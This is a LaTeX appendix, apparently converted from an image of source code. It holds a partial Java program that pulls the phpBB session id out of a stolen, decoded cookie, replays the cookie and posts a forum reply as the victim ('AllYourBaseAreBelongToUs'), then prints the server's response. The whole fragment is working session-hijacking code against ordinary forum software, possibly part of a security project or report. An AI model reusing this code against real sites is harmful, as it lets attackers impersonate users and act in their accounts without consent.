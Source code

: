 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
      // Extract session id
      String phpbb2mysql = "phpbb2mysql_sid=";
      int sidIndex = decodedCookie.indexOf("phpbb2mysql_sid=") + phpbb2mysql.length();
      String sid = decodedCookie.substring(sidIndex, decodedCookie.length()); 
      
      System.out.println(sid);
      urlConn.addRequestProperty("Cookie", decodedCookie);
      //HTTP Post Data which includes the information to be sent to the server.
      String subject = "AYBABTU";
      String message = "AllYourBaseAreBelongToUs";
      String topicNumber = "1";
      
      // Add response data
      String data="subject=" + subject;
      data += "&message=" + message;
      data += "&mode=reply";
      
      // Append session ID from the cookie
      data += "&sid=" + sid;
      data += "&t=" + topicNumber + "&post=Submit";

      // DoOutput flag of URL Connection should be set to true
      // to send HTTP POST message.
      urlConn.setDoOutput(true);

      // OutputStreamWriter is used to write the HTTP POST data
      // to the url connection.
      OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
      wr.write(data);
      wr.flush();

      // HttpURLConnection a subclass of URLConnection is returned by
      // url.openConnection() since the url is an http request.
      if (urlConn instanceof HttpURLConnection) {

             HttpURLConnection httpConn = (HttpURLConnection) urlConn;
             // Contacts the web server and gets the status code from
             // HTTP Response message.
             responseCode = httpConn.getResponseCode();
             System.out.println("Response Code = " + responseCode);
             // HTTP status code HTTP_OK means the response was
             // received sucessfully.
             if (responseCode == HttpURLConnection.HTTP_OK) {
                     // Get the input stream from url connection object.
                     responseIn = urlConn.getInputStream();
                     // Create an instance for BufferedReader
                     // to read the response line by line.
                     BufferedReader buf_inp = new BufferedReader(
                                     new InputStreamReader(responseIn));
                     String inputLine;
                     while((inputLine = buf_inp.readLine())!=null) {
                             System.out.println(inputLine);
                     }
             }
      }
    } catch (MalformedURLException e) {
               e.printStackTrace();
    }
  }
}


\end{lstlisting}
\end{appendices}
\end{document}
